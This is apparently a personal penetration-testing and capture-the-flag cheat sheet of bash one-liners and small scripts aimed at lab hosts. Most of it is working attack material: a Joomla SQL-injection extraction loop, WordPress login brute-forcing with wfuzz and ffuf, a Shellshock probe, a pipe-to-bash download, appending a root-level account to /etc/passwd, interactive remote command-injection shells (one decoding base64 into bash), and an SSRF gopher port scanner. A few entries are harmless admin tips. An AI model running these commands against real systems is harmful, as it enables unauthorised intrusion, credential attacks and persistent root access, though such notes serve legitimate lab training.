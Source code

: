 ## BASH TRICKS

## bash tricks
```bash
`command`

$(command)

${IFS} = space 			to do fast  - echo 'ping -c 1 10.10.14.6'| sed 's/ /${IFS}/g'

{echo,test}  = , means space

```


## Bad inter error
```bash

sed -i -e 's/\r$//' file

```

## Nmap result 
```bash

cat ports.txt| awk -F/ '{print $1}' ORS=','

cat nmap.txt | grep open | awk '{print $1}' ORS=','

```

## Capturing packets live through ssh 
tags:- #SSH

```bash

ssh 10.10.14.6@10.10.10.119 "/usr/sbin/tcpdump -i lo -U -s0 -w - 'not port 22'"  | wireshark -k -i -

```

## To search for online hosts through ping 
tags:- #PING
```bash
for i in {1..255}; do ping -c 1 10.120.15.$i | grep "bytes from" | cut -d " " -f4 | cut -d ":" -f1 ; done
```

## To do Sql Automate 
tags:- #SQL-I
```bash

for i in {1..90}; do curl "http://192.168.5.106/index.php" -d "option=com_fields&view=fields&layout=modal&list[fullordering]=extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema = database() limit $i,1)))" -s | grep -A3 blockquote | grep "#__" ; done

```

## wp-login.php Brute Force

```bash
# With the Wfuzz

wfuzz -c -z file,pass.txt  -d "log=jens&pwd=FUZZ&wp-submit=Log In&redirect_to=http%3A%2F%2Fwordy%2Fwp-admin%2F&testcookie=1" -b "wordpress_test_cookie=WP+Cookie+check" --hs 'incorrect' http://wordy/wp-login.php

ffuf -c -w ~/wordlist/rockyou.txt -X POST -H "Content-Type: application/x-www-form-urlencoded"   -d "log=kwheel&pwd=FUZZ&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1" -b "wordpress_test_cookie=WP+Cookie+check" -fr 'incorrect' -u  http://blog.thm/wp-login.php

```

## Shellshock Testing 
```bash

curl -H "User-agent:  () { :;}; echo; echo vulnerable" http://192.168.5.144/cgi-bin/test.sh

```

## wget
tags:-  #WGET

```bash
# To run command while downloading 

wget -qO - http://example.com/script.sh | bash

```

## To convert txt to json	
```jq

jq -s -R '[[ split("\n")[] | select(length > 0) | split(": +";"") | {(.[0]): .[1]}] | add]' exp.txt > exp.js

```

## Image CTF
```bash
# To extract the hidden message or file

steghide extract -sf HackerAccessGranted.jpg


```

## openssl enc'd 
```bash
openssl passwd sha

> 55I2zrL55mI3g
```
## New superuser(root)
```
echo 'sha:55I2zrL55mI3g:0:0:sha:/root:/bin/bash' >> /etc/passwd 
```
> $S$5igiyXY.3jqeB2QvRNuI6BgqJAgjWVh3aPNW9FvIkS/60e1XMncz   -  sha in drupal 8 and new version

## Hashcat 
```bash

hashcat --examples-hashes | grep -B2 '\$1\$'

```



# ***SCRIPTS***

## bash eg: 1
```bash
while true ; do
		
	echo "the cmd"
	
	read cmd
		
	result= curl -i -s http://192.168.5.151:7331/wish -d "cmd=$cmd" | grep Location | awk -F\= '{print $2}' | sed -e's/%\([0-9A-F][0-9A-F]\)/\\\\\x\1/g' |  xargs echo -e | sed -e 's/+/ /g'
		
	echo $result


done
```

## bash eg: 2
```bash
while true; do

	echo "The Command"
	
	read cmd
	
	t=$(echo -n "$cmd" | base64)
	
	curl -s "http://192.168.5.152/sar2HTML/index.php?plot=;echo+$t+|+base64+-d|bash" | grep value | sed 's/value/\n/g' | grep option | awk -F '>' '{print $1}'
	
done
```


## bash eg: 3 For Port scan in ssrf vulnerability
```bash 

#!/bin/bash

for i in `cat port.txt`; do 
	a=`timed-run 1 curl -s "http://quic.nagini.hogwarts/internalResourceFeTcher.php?url=gopher://127.0.0.1:$i/"| wc -l`
	if [[ $a -lt 5  ]] 
	then 
		echo "test $i"
	fi
done
```

















## Compiler for .c

- Intel C++ Compiler
- GNU Compiler
- Dev C++
- Borland C++
- Clang
- Visual C++ Compiler
- MinGW
- Tiny C Compiler




## Curl 
tags:- #CURL

```bash
# TO find PhpMyAdmin Version

curl -s http://192.168.5.169/phpmyadmin | grep -E -o 'PMA_VERSION:"[[:digit:].]+"'

```



## ffuf 
tags:- #ffuf
```bash

ffuf -u https://google.com -w dns_dict.txt -mc 200 -H "HOST: FUZZ.google.com"

ffuf -u http://driftingblues.box -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt  -H "HOST: FUZZ.driftingblues.box" -t 200 -fw 2259

```
















## Cleaning


Simply run the following command to cleanup the /var/log/journal directory:
```bash
journalctl --vacuum-size=500M
# Code language: Bash (bash)
```

This will delete old log files until the directory reaches the threshold size stipulated, in our case, 500M.



## Unstable version of RUST

Rust is installed now. Great!

> To get started you may need to restart your current shell.
This would reload your PATH environment variable to include
Cargo's bin directory ($HOME/.cargo/bin).

To configure your current shell, run:

> source $HOME/.cargo/env
